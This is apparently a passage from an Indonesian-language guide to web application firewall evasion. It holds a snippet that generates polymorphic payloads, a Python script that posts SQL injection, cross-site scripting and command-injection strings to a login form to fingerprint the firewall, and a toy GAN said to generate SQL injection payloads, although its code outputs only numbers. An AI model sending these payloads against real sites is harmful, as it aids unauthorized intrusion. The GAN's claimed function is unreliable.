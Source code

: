 ```python
    selected_payload = random.choice(payloads)
    selected_method = random.choice(mutations)
    print(f"Generated Polymorphic Payload: {mutate_payload(selected_payload, selected_method)}")
```

---

## 🔎 Automated WAF Fingerprinting & Adaptive Exploits

Dengan fingerprinting, kita bisa mengetahui **jenis & konfigurasi WAF** sebelum melancarkan serangan.  
**Teknik:**  
1. **Response Time Analysis** → Menguji variasi payload dan mencatat waktu respon.  
2. **Header Analysis** → Memeriksa tanda-tanda WAF di HTTP header.  
3. **Payload-Based Testing** → Mengirim payload khusus untuk menentukan jenis filtering.  

**Contoh Fingerprinting WAF dengan Python:**  
```python
import requests

target = "https://target.com/login"
payloads = ["' OR 1=1 --", "<script>alert(1)</script>", "; ls -la"]

for payload in payloads:
    response = requests.post(target, data={"username": "admin", "password": payload})
    print(f"Payload: {payload} - Response Code: {response.status_code} - Length: {len(response.text)}")
```

---

## 🔬 Neural Network-Generated Attack Payloads

Neural Network bisa digunakan untuk **menghasilkan payload eksploitasi** yang tidak ada dalam database tradisional.  
**Metode:**  
- **Reinforcement Learning** → AI mencoba berbagai variasi payload hingga menemukan yang lolos.  
- **Adversarial Training** → AI mempelajari bagaimana WAF memblokir serangan dan mengadaptasi payload.  
- **GAN-Based Payload Generation** → Menggunakan **Generative Adversarial Networks** untuk menciptakan payload baru.  

**Contoh Model GAN untuk Generate Payload SQL Injection:**  
```python
import torch
import torch.nn as nn

class Generator(nn.Module):
    def __init__(self):
        super(Generator, self).__init__()
        self.model = nn.Sequential(
            nn.Linear(10, 50),
            nn.ReLU(),
            nn.Linear(50, 100),
            nn.ReLU(),
            nn.Linear(100, 10),
            nn.Tanh()
        )

    def forward(self, x):
        return self.model(x)

generator = Generator()
noise = torch.randn(10)
fake_payload = generator(noise)
```
